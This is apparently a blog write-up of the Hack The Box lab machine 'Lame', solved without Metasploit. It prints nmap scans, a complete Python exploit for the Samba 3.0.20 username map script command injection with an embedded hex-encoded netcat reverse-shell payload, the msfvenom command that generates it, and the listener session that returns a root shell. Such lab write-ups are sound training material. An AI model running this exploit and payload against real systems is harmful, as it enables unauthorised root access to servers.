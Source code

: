 ```yaml
---
title: Hack The Box - Lame (Without Metasploit)
date: 2021-01-08 17:56:00 +0800
categories: [hackthebox]
tags: [linux, samba]
---
```


After completing all 66 boxes in the PWK labs, I decided to move on to TJNull's OSCP list of HackTheBoxes which are said to be similar to the ones in the exams. Fortunately the 12 month VIP Lab code which I won from some event was still usable :) 

![](/assets/images/lame.png){:height="414px" width="615px"}

# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.3 lame.htb" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash
$ nmap -sT -sV -sC -Pn lame.htb                      
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 04:07 EST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.014s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h31m20s, deviation: 3h32m08s, median: 1m19s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-01-08T04:08:43-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.60 seconds
```

# Enumeration

## Port 21 `vsftpd 2.3.4`

Only a few ports to interact with, which is great! Seeing that `vsftpd 2.3.4` is running on port `21`, I instantly remembered of the funny backdoor where sending a `:)` in the username would result in a shell listening on port `6200`. I used `nmap`'s `ftp-vsftpd-backdoor` script and it revealed that the backdoor was no longer there :/

```bash
$ nmap -Pn --script ftp-vsftpd-backdoor -p 21 lame.htb                   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 04:41 EST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.015s latency).

PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 21.22 seconds
```

## Port 445 `Samba 3.0.20-Debian`

```bash
$ searchsploit samba 3.0.20
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                           | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | unix/remote/16320.rb
...
```

Using `searchsploit`, we see that there is a `Metasploit` module that targets this version of `samba`. However, I will be attempting the non-Metasploit approach by using this [script](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851) that I found online.

# Exploitation

```python
#!/usr/bin/python

from smb.SMBConnection import SMBConnection
import random, string
from smb import smb_structs
smb_structs.SUPPORT_SMB2 = False
import sys


# Just a python version of a very simple Samba exploit. 
# It doesn't have to be pretty because the shellcode is executed
# in the username field. 

# Based off this Metasploit module - https://www.exploit-db.com/exploits/16320/ 

# Configured SMB connection options with info from here:
# https://pythonhosted.org/pysmb/api/smb_SMBConnection.html

# Use the commandline argument as the target: 
if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()


# Shellcode: 
# msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.0.35 LPORT=9999 -f python

buf =  ""
buf += "\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x6b"
buf += "\x62\x67\x61\x66\x3b\x20\x6e\x63\x20\x31\x30\x2e\x30"
buf += "\x2e\x30\x2e\x33\x35\x20\x39\x39\x39\x39\x20\x30\x3c"
buf += "\x2f\x74\x6d\x70\x2f\x6b\x62\x67\x61\x66\x20\x7c\x20"
buf += "\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74\x6d\x70"
buf += "\x2f\x6b\x62\x67\x61\x66\x20\x32\x3e\x26\x31\x3b\x20"
buf += "\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x6b\x62\x67\x61\x66"
buf += "\x20"


username = "/=`nohup " + buf + "`"
password = ""
conn = SMBConnection(username, password, "SOMEBODYHACKINGYOU" , "METASPLOITABLE", use_ntlm_v2 = False)
assert conn.connect(sys.argv[1], 445)
```

Before running this script, we will need to install the `pysmb` module, which the script requires.

```bash
$ sudo pip2 install pysmb
```

Next up, as the script says, we will need to generate our shellcode using `msfvenom`.

```bash
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=9999 -f python
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 92 bytes
Final size of python file: 467 bytes
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x61"
buf += b"\x72\x74\x6d\x6b\x3b\x20\x6e\x63\x20\x31\x30\x2e\x31"
buf += b"\x30\x2e\x31\x34\x2e\x37\x20\x39\x39\x39\x39\x20\x30"
buf += b"\x3c\x2f\x74\x6d\x70\x2f\x61\x72\x74\x6d\x6b\x20\x7c"
buf += b"\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74\x6d"
buf += b"\x70\x2f\x61\x72\x74\x6d\x6b\x20\x32\x3e\x26\x31\x3b"
buf += b"\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x61\x72\x74\x6d"
buf += b"\x6b"
```

After replacing the shellcode in the script with one we generated, we can start our `nc` listener on port `9999` and run the script.

```bash
$ python samba_usermap_exploit.py lame.htb
```

```bash
$ sudo rlwrap nc -vlnp 9999  
listening on [any] 9999 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.3] 49921
whoami
root
```

</td>
</tr>
</table>

Nice, we instantly got a shell as `root` without having to perform any privilege escalation! Lets try to get a nicer prompt

```bash
python -c "import pty; pty.spawn('/bin/bash')"
root@lame:/root#
```

# user.txt

The user flag is located at `/home/makis`.

```bash
root@lame:/home/makis# cat user.txt
7b12XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# root.txt

The root flag is located at `/root` as always.

```bash
root@lame:/root# cat root.txt
a608XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !